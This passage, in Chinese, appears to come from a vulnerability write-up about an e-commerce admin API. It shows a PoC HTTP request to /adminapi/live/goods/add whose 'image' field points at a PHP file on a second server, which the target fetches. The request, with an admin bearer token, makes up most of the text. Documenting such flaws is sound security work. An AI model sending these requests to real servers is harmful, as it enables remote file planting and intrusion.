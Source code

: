 替换其中`image`参数为`http://localhost:19000/help.PHP`并进行发包。可以看到数据包发送后，虽然返回 400，实际上已经请求并拉取了`help.PHP`文件。

![document_image_rId10.png](assets/1703831601-c045bae442be7bfdce73506037ed7ddc.png)

POC 数据包：

```php
POST /adminapi/live/goods/add HTTP/1.1
Host: localhost:45600
Content-Length: 206
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
Accept: application/json, text/plain, */*
Content-Type: application/json;charset=UTF-8
Authori-zation: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJwd2QiOiIxZDlmMjExMGZlOTgzM2U1MTQ4MmQyZjdkMTFmZjFlNiIsImlzcyI6ImxvY2FsaG9zdDo0NTYwMCIsImF1ZCI6ImxvY2FsaG9zdDo0NTYwMCIsImlhdCI6MTY5NDA1NjkyMCwibmJmIjoxNjk0MDU2OTIwLCJleHAiOjE2OTY2NDg5MjAsImp0aSI6eyJpZCI6MSwidHlwZSI6ImFkbWluIn19.6gzs6MXyxnHOEckxP4ejuoNJxLpMcT3MdyLRPBAkJ8k
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost:45600
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:45600/admin/marketing/live/add_live_goods
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"goods_info":[{"id":4,"image":"http://localhost:19000/help.PHP","store_name":"Apple/苹果 iPad mini6 8.3 英寸平板电脑 64G-WLAN 版 深空灰色","price":"3999.00","cost_price":"3999.00","stock":1600}]}
```
